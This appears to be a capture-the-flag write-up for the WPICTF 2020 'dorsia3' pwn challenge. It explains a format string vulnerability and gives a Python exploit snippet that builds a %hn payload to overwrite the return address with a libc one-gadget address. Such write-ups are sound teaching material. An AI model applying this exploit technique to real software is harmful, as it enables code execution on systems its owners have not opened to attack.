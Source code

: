 ## dorsia3 (250pt)

### Description

> http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The third card. 
>
> nc dorsia3.wpictf.xyz 31337 or 31338 or 31339 
>
> made by: awg

### Attachment

[nanoprint](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WPICTF2020/pwn/nanoprint/nanoprint), [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WPICTF2020/pwn/nanoprint/libc.so.6)

### Analysis

The third card:

![](http://image.taqini.space/img/cap_dorsia_00:00:53_02.jpg)

`system-288` is an address of `one gadget` in libc and `a` is a buffer in stack. There is a format string vulnerability and we can use it to modify return address to the address of `one gadget`.

### Solution

very common fmtstr attack:

```python
stack = eval(p.recv(10))
system = eval(p.recv(10))
info_addr('stack',stack)
info_addr('system',system)
ret = stack+0x71
info_addr('ret',ret)

payload = '%%%dc%%14$hn'%((system)&0xffff) +'%%%dc%%15$hn'%((((system>>16)-(system))%0x10000)&0xffff)
payload = payload.ljust(29,'B')
payload += p32(ret) + p32(ret+2)

sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/WPICTF2020/pwn/nanoprint) 


